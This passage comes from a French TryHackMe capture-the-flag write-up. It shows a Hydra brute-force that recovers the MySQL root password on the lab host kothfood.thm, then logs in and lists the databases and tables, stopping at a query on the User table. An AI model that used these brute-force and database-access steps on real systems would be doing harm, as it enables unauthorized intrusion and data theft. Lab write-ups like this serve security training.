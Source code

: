 Dans l'utilisateur food on trouve notre premier flag.

Réponse : thm{58a3cb46855af54d0660b34fd20a04c1}   

```


```bash
tim@kali:~/Bureau/tryhackme$ hydra -l root -P ./pass.txt  kothfood.thm mysql 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-26 18:24:40
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 23 login tries (l:1/p:23), ~6 tries per task
[DATA] attacking mysql://kothfood.thm:3306/
[3306][mysql] host: kothfood.thm   login: root   password: root
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-26 18:24:50
```

On brute force le mot de passe mysql.   
Le mot de passe est : root.   

```bash
tim@kali:~/Bureau/tryhackme$ mysql -h kothfood.thm -u root -p 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 12
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
5 rows in set (0.040 sec)
MySQL [(none)]> use users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MySQL [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| User            |
+-----------------+
1 row in set (0.035 sec)
MySQL [users]> select * from User;

```